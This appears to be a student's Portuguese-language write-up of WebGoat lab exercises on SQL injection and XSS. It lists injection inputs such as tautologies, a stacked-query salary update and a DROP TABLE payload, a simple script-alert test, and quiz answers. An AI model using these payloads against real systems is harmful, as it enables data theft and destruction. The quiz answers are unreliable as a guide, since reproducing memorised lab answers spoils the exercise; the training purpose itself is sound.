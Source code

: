 ## Pergunta 1.1 - SQL Injection ##
### 2) ###
Retornar o departamento do empregado Bob Franco. 

    SELECT department FROM Employees WHERE first_name='Bob' AND last_name='Franco'

![1.2](./imagens/1.2.png)  


### 3) ###
Alterar o departamento do empregado Tobi Barnett para 'Sales'.

    UPDATE Employees SET department='Sales' WHERE first_name='Tobi' AND last_name='Barnett'
    
![1.3](./imagens/1.3.png)


### 4) ###
Adicionar a coluna "phone" na tabela "employees"

    ALTER TABLE Employees ADD phone varchar(20)
    
![1.4](./imagens/1.4.png)


### 5) ###
Conceder a um grupo de utilizadores o direito de alterar tabelas

    GRANT ALTER TABLE TO 'UnauthorizedUser'
    
![1.5](./imagens/1.5.png)


### 9) ###
Obter todos os utilizadores da tabela onde os campos foram preenchidos por:
+ Smith'
+ or
+ '1'='1

A query final otida foi:

    SELECT * FROM user_data WHERE first_name="John" and last_name='Smith' or '1'='1'
    
![1.9](./imagens/1.9.png)


### 10) ###
O objetivo desta alínea passava por retornar todos os dados da tabela 'users'. Assim, após descobrimos que o campo User_Id era suscetível a SQL Injection, preenchemos os campos da seguinte forma:
+ **Login_Count**: 1
+ **User_Id**: 1 or 1=1

Obtendo assim:

    SELECT * FROM user_data WHERE Login_Count=1 and userid=1 or 1=1
    
![1.10](./imagens/1.10.png)


### 11) ###
Neste ponto era pretendido obter todos os dados da tabela 'employees', sabendo que a query era: 
    
    SELECT * FROM employees WHERE last_name='" + name + "' AND auth_tan= '" + auth_tan + ""
   
Assim, os campos foram completados com: 
+ **Employee Name**: Smith
+ **Authentication TAN**: 3SL99A' or '1'='1';--

![1.11](./imagens/1.11.png)


### 12) ###
Após sabermos o formato da tabela 'employees' devido à alínea anterior bastava-nos alterar o input pretendido num dos campos criando uma nova query e delimintando-as com ';'

Posto isto, os campos forma preenchidos da seguinte forma:
+ **Employee Name**: Smith
+ **Authentication TAN**: 3SL99A'; UPDATE SET salary=9999999 where last_name='Smith

![1.12](./imagens/1.12.png)


### 13) ###
Para apagar os registos feitos pelo utilizador o input foi completado da seguinte forma: 
    
    Smith'; DROP TABLE access_log;--
    
Assim, a query anterior foi separada da nova utilizando novamente ";"

![1.13](./imagens/1.13.png)



## Pergunta 2.1 - XSS ##

### 2) ###

Após testarmos o comando na barra de endereços chegámos à conclusão qe a informação apresentada em ambas as páginas era a mesma.

![2.2](./imagens/2.2.png)


### 7) ###
Depois de executar alguns testes o campo vulnerável descoberto foi o do cartão de crédito, onde executamos:

    <javascript>alert()</javascript>
    
    
### 10) ###

Primeiramente fomos à fonte do JavaScritp através do atalho de teclado : CTRL + SHIFT + I e procurámos pelo ficheiro GoatRouter.js onde encontrámos todas as rotas inclusive a de teste que tinha sido deixada durante a produção da aplicação.

![2.10.1](./imagens/2.10.1.png)



![2.10.2](./imagens/2.10.2.png)


### 11) ###



### 12) ###

+ **1**: Solution 4
+ **2**: Solution 3
+ **3**: Solution 1
+ **4**: Solution 2
+ **5**: Solution 4



  

  
    




